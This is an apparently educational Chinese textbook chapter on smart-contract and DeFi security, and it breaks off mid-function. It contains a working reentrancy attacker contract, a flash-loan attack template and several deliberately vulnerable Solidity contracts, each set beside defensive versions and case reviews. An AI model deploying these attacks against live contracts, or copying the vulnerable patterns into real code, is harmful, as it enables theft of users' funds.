






# 第21章 区块链安全 - 深度拓展

本章在前六章基础上，深入探讨智能合约高级漏洞利用与防御、DeFi协议攻击全链路分析、NFT与DAO治理安全、Layer 2与跨链桥攻防、MEV博弈论、形式化验证方法论，以及区块链安全审计工程实践。每个技术点都附带可运行的代码示例、真实攻击案例复盘和防御方案。

## 一、智能合约高级漏洞深度分析

### 1.1 重入攻击（Reentrancy Attack）

重入攻击是智能合约中最经典、破坏力最大的漏洞类型。2016年The DAO事件导致360万ETH被盗（当时约6000万美元），直接导致以太坊硬分叉。理解重入攻击的原理，是掌握所有智能合约安全的基础。

**攻击原理的核心机制：**

以太坊虚拟机（EVM）在执行外部调用（`call`、`send`、`transfer`）时，控制权会转移到被调用合约。如果被调用合约的 `receive()` 或 `fallback()` 函数中包含对原合约的再次调用，就会形成递归调用。问题的关键在于：如果状态更新在外部调用之后，攻击者就可以在状态尚未更新时反复提取资金。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ======== 漏洞合约：先转账再更新状态 ========
contract VulnerableBank {
    mapping(address => uint256) public balances;

    event Deposit(address indexed user, uint256 amount);
    event Withdraw(address indexed user, uint256 amount);

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() public {
        uint256 balance = balances[msg.sender];
        require(balance > 0, "No balance");

        // 【漏洞根因】先执行外部调用发送ETH，再更新内部状态
        // 当VulnerableBank向Attacker发送ETH时，Attacker的receive()被触发
        // Attacker在receive()中再次调用withdraw()，此时balances[msg.sender]仍为原值
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Transfer failed");

        // 这行代码要等到所有重入调用完成后才会执行
        balances[msg.sender] = 0;
    }
}

// ======== 攻击合约 ========
contract ReentrancyAttacker {
    VulnerableBank public victim;
    uint256 public constant ATTACK_AMOUNT = 1 ether;
    uint256 public attackCount;

    constructor(address _victim) {
        victim = VulnerableBank(_victim);
    }

    // 第一步：存入资金建立余额
    function deposit() external payable {
        victim.deposit{value: ATTACK_AMOUNT}();
    }

    // 第二步：发起攻击
    function attack() external {
        victim.withdraw();
    }

    // 核心：回调函数实现重入
    receive() external payable {
        // 每次收到ETH就再次调用withdraw()
        // 只要victim合约余额足够就继续
        if (address(victim).balance >= ATTACK_AMOUNT) {
            attackCount++;
            victim.withdraw();
        }
    }

    // 第三步：提取攻击所得
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

**攻击时序分析：**



**三种防御方法对比：**

| 防御方法 | 原理 | Gas消耗 | 适用场景 |
|----------|------|---------|----------|
| Checks-Effects-Interactions | 先更新状态再外部调用 | 最低 | 所有场景，首选方案 |
| ReentrancyGuard（重入锁） | 状态变量阻止递归调用 | 中等 | 复杂交互场景 |
| pull-over-push | 用户主动提取而非合约推送 | 较高 | 支付/分红场景 |

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBank is ReentrancyGuard {
    mapping(address => uint256) public balances;

    // ======== 方法1：Checks-Effects-Interactions模式 ========
    // 核心原则：状态变更必须在外部调用之前完成
    function withdraw_CEI() public {
        // Checks: 验证条件
        uint256 balance = balances[msg.sender];
        require(balance > 0, "No balance");

        // Effects: 先更新状态（关键！）
        balances[msg.sender] = 0;

        // Interactions: 最后执行外部调用
        // 即使攻击者重入，balances[msg.sender]已经是0，require(balance > 0)会失败
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Transfer failed");
    }

    // ======== 方法2：重入锁 ========
    function withdraw_Guard() public nonReentrant {
        uint256 balance = balances[msg.sender];
        require(balance > 0, "No balance");

        balances[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Transfer failed");
    }

    // ======== 方法3：pull-over-push模式 ========
    // 用户主动调用withdraw，而非合约主动推送
    mapping(address => uint256) public pendingWithdrawals;

    function requestWithdraw() public {
        uint256 balance = balances[msg.sender];
        require(balance > 0, "No balance");
        balances[msg.sender] = 0;
        pendingWithdrawals[msg.sender] = balance;
    }

    function executeWithdraw() public nonReentrant {
        uint256 amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "Nothing to withdraw");
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```

**跨函数重入（Cross-function Reentrancy）：** 上面的示例是单函数重入。更隐蔽的是跨函数重入——攻击者在A函数的外部调用回调中调用B函数，而A和B共享状态变量：

```solidity
// 跨函数重入示例
contract CrossFunctionReentrancy {
    mapping(address => uint256) public balances;
    mapping(address => bool) public isProcessing;

    function transfer(address to, uint256 amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        balances[to] += amount;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0);
        // 外部调用
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }
    // 漏洞：攻击者在withdraw的call回调中调用transfer
    // 此时balances[msg.sender]尚未清零，可以转移余额到另一个地址
    // 然后withdraw最后执行balances[msg.sender] = 0，抹去了原始余额
    // 攻击者在另一个地址得到了资金，原地址的余额也被清零——双重获利
}
```

### 1.2 整数溢出与下溢（Integer Overflow/Underflow）

整数溢出是Solidity 0.8.0之前最常见的漏洞类型之一。EVM中的整数运算是固定位宽的，超出范围会回绕（wrap around）而非报错。

**溢出原理：**

```text
uint8 范围：0 ~ 255
255 + 1 = 0（溢出回绕）
0 - 1 = 255（下溢回绕）

uint256 范围：0 ~ 2^256 - 1
(2^256 - 1) + 1 = 0（溢出）
0 - 1 = 2^256 - 1（下溢）
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ======== 漏洞合约（Solidity < 0.8.0环境）========
contract IntegerOverflowDemo {
    // 假设使用pragma solidity ^0.7.0

    uint8 public totalSupply = 255;
    mapping(address => uint8) public balances;

    // 漏洞：255 + 1 = 0，totalSupply回绕为0
    function mint(uint8 amount) public {
        totalSupply = totalSupply + amount;  // 溢出！
        balances[msg.sender] += amount;
    }

    // 下溢漏洞示例
    function transfer(address to, uint8 amount) public {
        require(balances[msg.sender] >= amount);
        // 如果balances[msg.sender] = 0, amount = 1
        // 0 - 1 = 255（下溢），攻击者获得255个代币
        balances[msg.sender] -= amount;
        balances[to] += amount;
    }
}

// ======== 防御方案 ========

// 方案1：SafeMath库（Solidity < 0.8.0必需）
import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract SafeMathExample {
    using SafeMath for uint256;
    uint256 public totalSupply;

    function mint(uint256 amount) public {
        // SafeMath.add()内部检查溢出，溢出时revert
        totalSupply = totalSupply.add(amount);
    }
}

// 方案2：Solidity 0.8.0+内置溢出检查（推荐）
contract ModernSolidity {
    uint256 public totalSupply;

    function mint(uint256 amount) public {
        // 0.8.0+自动检查溢出，溢出会revert
        totalSupply += amount;
    }

    // 如果确实需要unchecked运算（如hash计算、循环计数器）
    function efficientLoop(uint256 n) public pure returns (uint256 sum) {
        for (uint256 i = 0; i < n;) {
            sum += i;
            unchecked { i++; }  // 跳过溢出检查，节省gas
        }
    }
}
```

**真实案例——BEC代币溢出事件（2018年4月）：** 美链（Beauty Chain）BEC代币在以太坊上遭受整数溢出攻击。攻击者调用 `batchTransfer` 函数，传入一个巨大的amount值，乘法运算溢出为0，绕过了转账金额检查，凭空铸造了天量代币，BEC代币价格瞬间归零，损失约9亿美元市值。

```solidity
// BEC漏洞函数简化还原
function batchTransfer(address[] memory receivers, uint256 value) public {
    uint256 amount = receivers.length * value;
    // 当receivers.length=2, value=2^255时
    // amount = 2 * 2^255 = 2^256 = 0（溢出！）
    require(balanceOf[msg.sender] >= amount);  // 0 >= 0 永远通过
    balanceOf[msg.sender] -= amount;
    for (uint256 i = 0; i < receivers.length; i++) {
        balanceOf[receivers[i]] += value;  // 每人获得2^255个代币
    }
}
```

### 1.3 访问控制漏洞

访问控制是智能合约安全的基础。错误的权限设置可能导致合约被完全控制、资金被盗或关键参数被篡改。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ======== 常见访问控制错误 ========
contract AccessControlVulnerabilities {

    address public owner;
    mapping(address => bool) public isAdmin;

    // 【漏洞1】缺少权限检查——任何人都能提取资金
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }

    // 【漏洞2】tx.origin误用——钓鱼攻击
    // tx.origin是整个调用链的发起者（EOA），而非直接调用者
    // 攻击者部署钓鱼合约，诱导owner调用，tx.origin仍指向owner
    function transferOwnership(address newOwner) public {
        require(tx.origin == owner, "Not owner");  // 错误！
        owner = newOwner;
    }

    // 【漏洞3】未初始化的代理合约——Parity Wallet事件
    // 代理合约的initialize()如果没有防重复初始化保护
    // 任何人都可以调用并成为owner
    function initialize(address _owner) public {
        owner = _owner;  // 可能被任何人调用
    }

    // 【漏洞4】错误的可见性——private不是真正的私有
    // Solidity的private只阻止其他合约读取，区块链上所有数据公开可见
    string private secretKey;  // 任何人都能通过storage slot读取
}

// ======== 正确的访问控制实现 ========
import "@openzeppelin/contracts/access/AccessControl.sol";
import "@openzeppelin/contracts/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts/security/Pausable.sol";

contract SecureContract is AccessControl, Initializable, Pausable {
    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant OPERATOR_ROLE = keccak256("OPERATOR_ROLE");

    // 使用initializer修饰符防止重复初始化
    function initialize(address _admin) public initializer {
        _grantRole(DEFAULT_ADMIN_ROLE, _admin);
        _grantRole(ADMIN_ROLE, _admin);
    }

    // 基于角色的访问控制
    function sensitiveOperation() public onlyRole(ADMIN_ROLE) {
        // 仅管理员可执行
    }

    // 使用msg.sender而非tx.origin
    function transferOwnership(address newOwner) public onlyRole(DEFAULT_ADMIN_ROLE) {
        // msg.sender是直接调用者，不会被钓鱼攻击利用
        _grantRole(DEFAULT_ADMIN_ROLE, newOwner);
        _revokeRole(DEFAULT_ADMIN_ROLE, msg.sender);
    }

    // 紧急暂停功能
    function emergencyPause() public onlyRole(ADMIN_ROLE) {
        _pause();
    }

    function resume() public onlyRole(ADMIN_ROLE) {
        _unpause();
    }

    // 受暂停保护的操作
    function trading() public whenNotPaused {
        // 交易操作
    }
}
```

**tx.origin钓鱼攻击完整流程：**



### 1.4 签名重放攻击

离线签名（EIP-712）广泛用于NFT白名单铸造、Gasless交易等场景。如果签名验证实现不当，会导致签名被重复使用或跨合约使用。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ======== 漏洞实现 ========
contract SignatureVulnerable {
    address public signer;

    mapping(bytes32 => bool) public usedHashes;

    // 漏洞1：没有nonce，签名可被重放
    function claimReward(address user, bytes memory signature) public {
        bytes32 messageHash = keccak256(abi.encodePacked(user));
        address recovered = ECDSA.recover(messageHash, signature);
        require(recovered == signer, "Invalid signature");
        // 没有检查签名是否已使用
        // 攻击者可以反复调用此函数领取奖励
        payable(user).transfer(1 ether);
    }

    // 漏洞2：缺少chainId和合约地址绑定
    // 签名可以在不同链或不同合约上被重放
    function claimWithNonce(address user, uint256 nonce, bytes memory signature) public {
        bytes32 messageHash = keccak256(abi.encodePacked(user, nonce));
        // 即使有nonce，如果缺少chainId和合约地址
        // 同一签名可以在分叉链或不同合约上使用
    }
}

// ======== 安全实现（EIP-712标准）========
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";
import "@openzeppelin/contracts/utils/cryptography/EIP712.sol";

contract SignatureSecure is EIP712 {
    using ECDSA for bytes32;

    address public immutable SIGNER;
    mapping(bytes32 => bool) public usedNonces;

    // EIP-712类型哈希——签名结构明确定义
    bytes32 private constant CLAIM_TYPEHASH =
        keccak256("Claim(address user,uint256 nonce,uint256 amount,uint256 deadline)");

    constructor(address signer) EIP712("RewardDistributor", "1") {
        SIGNER = signer;
    }

    function claim(
        address user,
        uint256 nonce,
        uint256 amount,
        uint256 deadline,
        bytes memory signature
    ) external {
        // 检查截止时间
        require(block.timestamp <= deadline, "Signature expired");

        // 构造EIP-712结构化数据哈希（自动包含chainId和合约地址）
        bytes32 structHash = keccak256(abi.encode(
            CLAIM_TYPEHASH,
            user,
            nonce,
            amount,
            deadline
        ));
        bytes32 digest = _hashTypedDataV4(structHash);

        // 验证签名
        address recovered = digest.recover(signature);
        require(recovered == SIGNER, "Invalid signature");

        // 防重放：检查并标记nonce
        bytes32 nonceKey = keccak256(abi.encodePacked(user, nonce));
        require(!usedNonces[nonceKey], "Signature already used");
        usedNonces[nonceKey] = true;

        // 执行业务逻辑
        payable(user).transfer(amount);
    }
}
```

**EIP-712签名安全的关键要素：**

| 要素 | 作用 | 缺失后果 |
|------|------|----------|
| chainId | 绑定到特定链 | 签名可在分叉链重放 |
| 合约地址（verifyingContract） | 绑定到特定合约 | 签名可在其他合约重放 |
| deadline | 签名有效期 | 签名永久有效 |
| nonce | 防重放 | 同一签名可多次使用 |
| 结构化类型定义 | 明确签名内容 | 签名歧义 |

## 二、DeFi协议攻击全链路分析

### 2.1 闪电贷攻击深度剖析

闪电贷（Flash Loan）是DeFi最具创新性的金融原语——在同一笔交易中借入和归还资金，无需抵押。但这也使攻击者能以零成本获取巨额资金，在一个原子交易中完成价格操纵、套利和清算。

**闪电贷攻击的完整五步流程：**



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@aave/v3-core/contracts/flashloan/base/FlashLoanSimpleReceiverBase.sol";

// ======== 闪电贷攻击模板 ========
contract FlashLoanAttackTemplate is FlashLoanSimpleReceiverBase {
    address public target;
    uint256 public profit;

    constructor(
        IPoolAddressesProvider provider,
        address _target
    ) FlashLoanSimpleReceiverBase(provider) {
        target = _target;
    }

    // 发起闪电贷
    function executeFlashLoan(address token, uint256 amount) external {
        // Aave V3闪电贷接口
        POOL.flashLoanSimple(
            address(this),   // receiver
            token,           // 借入的代币
            amount,          // 数量
            "",              // params
            0                // referralCode
        );
    }

    // 闪电贷回调——核心攻击逻辑
    function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initiator,
        bytes calldata params
    ) external override returns (bool) {
        // ======== 攻击逻辑开始 ========

        // Step 1: 用借入资金操纵目标协议的价格
        manipulatePrice(asset, amount);

        // Step 2: 利用被操纵的价格执行有利操作
        exploitTarget(asset, amount);

        // ======== 攻击逻辑结束 ========

        // 归还闪电贷（本金 + 手续费）
        uint256 amountOwed = amount + premium;
        IERC20(asset).approve(address(POOL), amountOwed);

        return true;
    }

    function manipulatePrice(address token, uint256 amount) internal {
        // 在DEX上大量卖出/买入操纵价格
        // 具体逻辑取决于攻击目标
    }

    function exploitTarget(address token, uint256 amount) internal {
        // 利用被操纵的价格在目标协议中获利
    }
}
```

**案例复盘——PancakeBunny攻击（2021年5月，4500万美元）：**

攻击者利用PancakeSwap的BNB/USDT流动性池操纵价格预言机，使Bunny代币的价格暴涨，然后以虚高价格铸造大量BUNNY代币并抛售获利。具体步骤：

1. 从PancakeSwap闪电贷借入大量BNB
2. 将BNB兑换为USDT，使BNB价格在PancakeSwap上暴跌
3. Bunny协议的价格预言机依赖PancakeSwap的价格，误判BNB价格极低
4. 以被操纵的低BNB价格铸造大量BUNNY奖励代币
5. 在市场上抛售BUNNY获利
6. 买回BNB归还闪电贷

**防御闪电贷攻击的六种策略：**

| 策略 | 原理 | 适用场景 |
|------|------|----------|
| TWAP预言机 | 使用时间加权平均价格，消除瞬时操纵 | 价格依赖型协议 |
| 多源预言机 | 聚合多个价格源，增加操纵成本 | 任何需要价格输入的场景 |
| 延迟执行 | 治理操作需等待多区块才能执行 | DAO治理 |
| 抵押要求 | 闪电贷不在同一交易中还款则需要抵押 | 借贷协议 |
| 交易前后价格检查 | 验证价格变化不超过阈值 | DEX相关操作 |
| 区块内限制 | 禁止在同一区块内借入和使用 | 防止原子性操纵 |

### 2.2 预言机操纵攻击

预言机（Oracle）是连接链上智能合约与链下数据的桥梁。如果预言机被操纵，依赖其数据的DeFi协议就会做出错误决策，导致巨额损失。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ======== 漏洞：使用单一DEX即时价格 ========
contract VulnerableOracle {
    // 直接使用DEX的储备量计算价格——极易被操纵
    function getPrice(address tokenA, address tokenB) public view returns (uint256) {
        // Uniswap V2: getReserves()返回当前区块的储备量
        (uint112 reserve0, uint112 reserve1, ) = IUniswapV2Pair(
            getPair(tokenA, tokenB)
        ).getReserves();

        // 【漏洞】攻击者通过闪电贷大量买入/卖出，瞬间改变reserve比例
        // 这个"价格"只反映当前交易的瞬时状态，不代表真实市场价
        return uint256(reserve1) * 1e18 / uint256(reserve0);
    }
}

// ======== 安全：Chainlink去中心化预言机 ========
import "@chainlink/contracts/src/v0.8/interfaces/AggregatorV3Interface.sol";

contract SecurePriceOracle {
    // Chainlink价格馈送：由多个独立节点聚合，每轮更新间隔数分钟
    AggregatorV3Interface internal ethUsdFeed;
    AggregatorV3Interface internal btcUsdFeed;

    // 最大接受的价格偏差（防异常值）
    uint256 public constant MAX_PRICE_DEVIATION = 5e16; // 5%

    // 最大接受的价格过期时间
    uint256 public constant MAX_PRICE_STALENESS = 3600; // 1小时

    constructor(address _ethUsdFeed, address _btcUsdFeed) {
        ethUsdFeed = AggregatorV3Interface(_ethUsdFeed);
        btcUsdFeed = AggregatorV3Interface(_btcUsdFeed);
    }

    function getEthPrice() public view returns (uint256) {
        (
            uint80 roundId,
            int256 price,
            uint256 startedAt,
            uint256 updatedAt,
            uint80 answeredInRound
        ) = ethUsdFeed.latestRoundData();

        // 安全检查1：价格不为0
        require(price > 0, "Invalid price: <= 0");

        // 安全检查2：数据未过期
        require(
            block.timestamp - updatedAt <= MAX_PRICE_STALENESS,
            "Price data is stale"
        );

        // 安全检查3：roundId合理
        require(answeredInRound >= roundId, "Stale price round");

        return uint256(price);
    }

    // 使用TWAP（时间加权平均价格）进一步提高安全性
    // 结合Chainlink和Uniswap V3 TWAP，双重验证
}
```

**预言机安全的层级模型：**



### 2.3 跨链桥安全

跨链桥是连接不同区块链的枢纽，也是攻击者的主要目标。2022年跨链桥攻击损失超过20亿美元，成为区块链安全的重灾区。

**跨链桥的三种架构及其安全风险：**

| 架构类型 | 工作原理 | 代表项目 | 安全风险 |
|----------|----------|----------|----------|
| 多签验证 | M-of-N验证者签名确认跨链消息 | Ronin, Harmony | 验证者私钥泄露 |
| 轻客户端验证 | 目标链验证源链的区块头和证明 | Cosmos IBC | 代码实现漏洞 |
| 乐观验证 | 提交后等待挑战期，无异议则确认 | Optimism Bridge | 挑战机制绕过 |

```solidity
// ======== 跨链桥安全实现 ========
contract SecureBridge {
    // 防重复处理
    mapping(bytes32 => bool) public processedMessages;
    // 验证者集合
    mapping(address => bool) public validators;
    uint256 public validatorCount;
    uint256 public requiredSignatures;

    // 每个验证者的消息计数器（防重放）
    mapping(address => uint256) public nonces;

    event MessageProcessed(bytes32 indexed messageHash, address indexed from);

    modifier onlyValidator() {
        require(validators[msg.sender], "Not a validator");
        _;
    }

    function processMessage(
        bytes32 messageHash,
        uint256 nonce,
        bytes[] calldata signatures
    ) external onlyValidator {
        // 检查1：防重复处理
        require(!processedMessages[messageHash], "Already processed");

        // 检查2：验证签名数量
        require(
            signatures.length >= requiredSignatures,
            "Insufficient signatures"
        );

        // 检查3：验证每个签名的唯一性和有效性
        address lastSigner = address(0);
        for (uint256 i = 0; i < signatures.length; i++) {
            address signer = messageHash.toEthSignedMessageHash()
                .recover(signatures[i]);

            // 验证签名者是合法验证者
            require(validators[signer], "Invalid signer");
            // 验证签名有序（防重复使用同一签名）
            require(signer > lastSigner, "Duplicate or unordered signature");
            lastSigner = signer;
        }

        // 标记为已处理
        processedMessages[messageHash] = true;

        // 执行跨链操作
        _executeCrossChainOperation(messageHash);

        emit MessageProcessed(messageHash, msg.sender);
    }
}
```

**案例复盘——Ronin Bridge攻击（2022年3月，6.25亿美元）：**

这是历史上最大的DeFi攻击事件。攻击者（朝鲜Lazarus Group）通过社会工程学获取了Ronin网络9个验证者中5个的私钥（仅需5个即可控制），然后签署恶意交易从桥中提取了173,600 ETH和25.5M USDC。关键教训：

- 验证者节点密钥管理不善（部分私钥存储在云端未加密）
- 多签阈值过低（5/9不足以抵抗有组织的攻击）
- 缺乏异常交易监控（大额提取未触发警报）
- 事件在6天后才被发现

### 2.4 治理攻击与DAO安全

闪电贷不仅可以操纵价格，还可以操纵治理投票。攻击者通过闪电贷获取大量治理代币，在单个交易中通过恶意提案，然后归还代币。

**案例复盘——Beanstalk攻击（2022年4月，1.82亿美元）：**

攻击者利用闪电贷借入大量治理代币，通过两个恶意提案（BIP-18和BIP-19），将协议中的所有资金转移到自己的地址。整个攻击在一个原子交易中完成。

```solidity
// 治理攻击防御
contract SecureGovernor {
    // 防御1：快照区块限制
    // 只有在提案创建前就持有代币的地址才能投票
    function getVotes(address account) public view override returns (uint256) {
        // 使用上一个区块的快照，而非当前余额
        return getPastVotes(account, block.number - 1);
    }

    // 防御2：投票延迟
    uint256 public constant VOTING_DELAY = 1 days;  // 提案创建后等1天才能投票
    uint256 public constant VOTING_PERIOD = 7 days;  // 投票持续7天

    // 防御3：法定人数要求
    uint256 public constant QUORUM = 4e18;  // 需要4%的总供应量参与

    // 防御4：时间锁
    // 即使提案通过，也需要等待时间锁才能执行
    uint256 public constant TIMELOCK_DELAY = 2 days;

    function execute(
        address[] memory targets,
        uint256[] memory values,
        bytes[] memory calldatas,
        bytes32 descriptionHash
    ) public payable override returns (uint256) {
        // 检查投票已结束且通过
        // 检查时间锁已过期
        // 执行提案
    }
}
```

## 三、NFT安全深度分析

### 3.1 NFT合约常见漏洞

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";
import "@openzeppelin/contracts/utils/cryptography/EIP712.sol";

// ======== 漏洞合集 ========
contract VulnerableNFT is ERC721 {
    uint256 public price = 0.01 ether;
    uint256 public totalSupply;

    // 【漏洞1】无铸造上限——可以无限铸造
    function mint(uint256 quantity) public payable {
        require(msg.value >= price * quantity);
        for (uint256 i = 0; i < quantity; i++) {
            totalSupply++;
            _mint(msg.sender, totalSupply);
        }
    }

    // 【漏洞2】元数据可修改——NFT图片可被替换
    string private _baseURI;
    function setBaseURI(string memory baseURI) public {
        // 没有权限检查！任何人都能修改NFT指向的元数据
        _baseURI = baseURI;
    }

    // 【漏洞3】随机数可预测——稀有NFT可被定向铸造
    function mintRandom(uint256 quantity) public payable {
        for (uint256 i = 0; i < quantity; i++) {
